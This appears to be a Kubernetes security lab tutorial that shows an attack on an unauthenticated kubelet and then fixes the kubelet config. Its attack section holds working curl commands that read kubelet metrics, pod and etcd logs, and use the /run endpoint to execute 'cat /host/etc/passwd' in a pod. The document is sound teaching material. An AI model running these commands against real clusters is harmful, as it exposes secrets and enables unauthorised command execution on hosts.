 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# TODO not needed anymore? $IP should be set via .trainingrc file
# store the external IP of the worker node
export IP=$(gcloud compute instances list --filter="name=kubernetes-security" --format json | jq '.[].networkInterfaces[].accessConfigs[].natIP' | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

```bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
authentication:
  anonymous:
    enabled: true # <= change to false
```

### Fix Authorization

```yaml
authorization:
  mode: AlwaysAllow # <= change to Webhook
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet again - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```
